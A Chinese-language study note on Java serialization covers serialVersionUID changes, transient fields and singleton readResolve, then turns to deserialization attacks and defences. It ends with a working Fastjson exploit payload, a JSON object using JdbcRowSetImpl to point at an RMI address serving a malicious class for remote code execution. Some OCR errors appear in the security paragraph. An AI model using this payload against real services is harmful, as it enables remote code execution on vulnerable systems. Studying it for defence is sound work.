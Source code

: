 

什么情况下需要修改serialVersionUID呢？分三种情况。

- 如果只是修改了方法，反序列化不容影响，则无需修改版本号；
- 如果只是修改了静态变量，瞬态变量（transient修饰的变量），反序列化不受影响，无需修改版本号；
- 如果修改了非瞬态变量，则可能导致反序列化失败。**如果新类中实例变量的类型与序列化时类的类型不一致，则会反序列化失败，这时候需要更改serialVersionUID。**如果只是新增了实例变量，则反序列化回来新增的是默认值；如果减少了实例变量，反序列化时会忽略掉减少的实例变量。

**总结**

所有需要网络传输的对象都需要实现序列化接口，通过建议所有的javaBean都实现Serializable接口。

对象的类名、实例变量（包括基本类型，数组，对其他对象的引用）都会被序列化；方法、类变量、transient实例变量都不会被序列化。

如果想让某个变量不被序列化，使用transient修饰。

序列化对象的引用类型成员变量，也必须是可序列化的，否则，会报错。

反序列化时必须有序列化对象的class文件。

当通过文件、网络来读取序列化后的对象时，必须按照实际写入的顺序读取。

单例类序列化，需要重写readResolve()方法；否则会破坏单例原则。

同一对象序列化多次，只有第一次序列化为二进制流，以后都只是保存序列化编号，不会重复序列化。

建议所有可序列化的类加上serialVersionUID 版本号，方便项目升级。





序歹lj 化通常会通过网络传输对象 而对象中往往有敏感数据，所以序列化常常

成为黑客的攻击点，攻击者巧妙地利用反序列化过程构造恶意代码，使得程序在反序

列化的过程中执行任意代码。 Java 工程中广泛使用的 pache Commons Collections

Jackson fastjson 等都出现过反序列化漏洞。如何防范这种黑客攻击呢？有些对象的

敏感属性不需要进行序列化传输 ，可以加 `transient` 关键字，避免把此属性信息转化为

序列化的二进制流。如果一定要传递对象的敏感属性，可以使用对称与非对称加密方

式独立传输，再使用某个方法把属性还原到对象中。应用开发者对序列化要有一定的

安全防范意识 对传入数据的内容进行校验或权限控制，及时更新安全漏洞，避免受

到攻击。

### Fastjson反序列化漏洞

[Fastjson反序列化漏洞 1.2.24-1.2.48(https://www.kingkk.com/2019/07/Fastjson反序列化漏洞-1-2-24-1-2-48/)](https://www.kingkk.com/2019/07/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1-2-24-1-2-48/)

[https://zhuanlan.zhihu.com/p/99075925](https://zhuanlan.zhihu.com/p/99075925)

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

当远程rmi服务找不到对应方法时，可以指定一个远程class让请求方去调用，从而去获取我们恶意构造的class文件，从而RCE。
